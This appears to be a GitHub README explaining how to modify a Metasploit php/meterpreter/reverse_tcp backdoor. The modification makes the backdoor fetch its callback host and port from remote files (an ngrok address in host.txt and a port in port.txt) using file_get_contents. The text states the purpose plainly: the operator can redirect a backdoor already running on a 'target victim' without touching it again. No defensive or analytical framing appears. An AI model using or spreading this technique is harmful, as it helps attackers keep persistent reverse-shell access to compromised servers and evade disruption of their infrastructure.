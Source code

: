 # Metasploit-Payload-PHP-Backdoor-Func
metasploit payload 'php/meterpreter/reverse_tcp' file_get_content

look at line 4 through line 11, there you see the original source code on line 6 and line 7, and replace it like line 10 and line 11.

$ ip = file_get_contents ("url");
$ port = file_get_contents ("url");

Explanation: file_get_contents is to get the contents of the URL, so we create a file:

host.txt (contains "0.tcp.ngrok.io")
port.txt (contains "port", for example "13337")
and the file, uploaded to Hosting or Online storage.

Why use file_get_contents?
Because, when the backdoor is installed and used in the target victim, we cannot change the IP: Port, when Port Forwarding is down or experiencing problems, we only need to change the contents of the file host.txt and port.txt in Hosting or Online Storage, and backdoor in the target victim will read the new contents of the file, and therefore we can make it change as we wish.
